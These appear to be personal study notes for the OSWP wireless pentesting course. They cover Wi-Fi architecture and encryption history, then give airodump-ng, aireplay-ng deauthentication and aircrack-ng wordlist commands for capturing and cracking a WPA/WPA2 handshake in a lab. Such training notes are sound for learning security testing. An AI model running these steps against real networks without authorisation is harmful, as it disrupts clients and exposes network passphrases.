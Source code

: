 # (OSWP)Offensive Security Wireless professional


# Wireless Attacks

* Infrastructure is the term used to describe and organization or the relationship between client (station) and access points(routers).
* Wireless Distribution System is a way to connect multiple APs without Ethernet cables between them in order to create a single network.
* Monitor Mode is not an architecture, per se, but a mode used by wireless cards that will help us capture Wi-Fi frames and inject packets during a penetration test.

## Infrastructure
So there is atleast one router and one client. These two together form a basic service check (BSS).
The AP is usually connected to a wired network, called the Distribution System (DS).
When a set of two or more wireless APs are connected to the same wired network, we call this an Extended Service Set (ESS).


## Wireless distributed

This is just as the name suggests, instead of cables we use distrubuted system which connects to the APs over wifi (without cables) but there is a downside to it. We are restricted to a certain area in which that APs is gonna provide signal to the client and this is called (BSA) Basic Service Area.

So APs communicate using electromagnetic waves and they usually use two frequencies 2.4 and 5.
In both of these bands there are multiple channels through which we can control the interference like in 2.4 there are 14 channels.
But most of them overlap with each other so its advised to use the channel 1,6 and 11. 2.4 ghz frequency is used for longer ranges but speed is comparitvely slower than 5ghz.

The two most imortant piece of information that is traveled in the wireless medium is SSID (name of the network) and BSSID (mac address of it).

## Monitor Mode

Monitor mode is not a wireless mode or architecture scheme, but rather the state of a wireless device that allows it to monitor all Wi-Fi signals within its range.

# Wireless Encryption

Wi-Fi works over radio waves, which means it is subject to eavesdropping and therefore, encryption has to be used to protect the transmitted data.

Wired Equivalent Privacy (WEP)1 was created when the 802.11 standard was released in order to give privacy features similar to those found in wired networks.

As soon as flaws were discovered in WEP (WEP can be cracked in under a minute), the IEEE created a new group called 802.11i aimed at improving Wi-Fi security. Wi-Fi Protected Access (WPA)2 superseded WEP in 2003, followed by WPA2 in 2004 (802.11i standard).






# Cracking WPA/WPA2

There are two types of authentication methods in this encryption

* PSK (pre shared key authentication)
* Enterprise Networks

we need to capture a WPA 4-way handshake between the AP and a real client. This is a process that we will use throughout the course. The 4-way handshake contains the necessary information we need to crack the passphrase.

We can get a 4way handshake using following steps:

first find which network to target using airodump:

```bash
sudo airodump-ng -c 3 -w wpa --essid wifu --bssid 34:08:04:09:3D:38 wlan0mon
```

Then using aireplay-ng deauth one or all the clients on that network:

```bash
sudo aireplay-ng -0 1 -a 34:08:04:09:3D:38 -c 00:18:4D:1D:A8:1F wlan0mon
```
Now when that client will attempt to reconnect with the network the 4 way handshake will be captured.

Make sure to let the airodump keep running for some time after capturing the handshake because that data might help use crack the password.


Then using a custom wordlist crack the 4 way handshake with the aircrack-ng:

```bash
aircrack-ng -w /usr/share/john/password.lst -e wifu -b 34:08:04:09:3D:38 wpa-01.cap
```
























